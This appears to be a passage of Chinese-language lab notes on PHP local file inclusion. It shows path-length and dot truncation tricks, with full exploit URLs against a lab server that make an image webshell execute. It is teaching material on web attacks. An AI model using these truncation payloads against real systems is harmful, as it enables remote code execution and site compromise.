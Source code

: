 ![image-20241015155044905](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20241015155044905.png)

1.2.1 原理：

Windows下目录最大长度为256字节，超出的部分会被丢弃；
Linux下目录最大长度为4096字节，超出的部分会被丢弃。

1.2.2 实验步骤：

利用方法：

http://192.168.100.150/test_include/index.php?page=1.png/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

1、包含1.png，使用burpsuite对这个文件进行抓包：

![image-20241015155059490](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20241015155059490.png)
2、使用长路进行截断，使后面拼接的内容失效，可以看出，成功解析图片马：

![image-20241015155114273](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20241015155114273.png)![image-20241015155126297](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20241015155126297.png)

1.3 点号截断：

1.3.1 原理：

windows系统 点号 长于 256，超出的部分会被丢弃；
linux系统 点号 长于 4096，超出的部分会被丢弃；；

1.3.2 实验步骤：

利用方法：

http://192.168.100.150/test_include/index.php?page=1.png.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
